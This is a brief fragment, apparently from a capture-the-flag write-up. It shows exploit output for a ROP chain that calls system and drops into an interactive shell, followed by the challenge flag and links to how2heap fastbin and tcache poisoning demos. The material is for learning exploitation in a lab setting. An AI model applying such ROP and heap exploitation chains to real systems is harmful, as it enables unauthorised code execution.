 ```
0x0000:   0x7f9db531903c pop rdi; ret
0x0008:   0x7f9db53d944a [arg0] rdi = 140315327304778
0x0010:   0x7f9db525af30 system
[+] rop main: Done
[+] duration: 67.11265683174133
[*] Switching to interactive mode
uid=1000(user) gid=1000(user) groups=1000(user)
TRX{wh0_th3_fuck_kn0w5_4b0u7_f457B1n5?!_153CA0}
```


[1]: https://github.com/shellphish/how2heap/blob/master/glibc_2.35/fastbin_dup.c
[2]: https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c
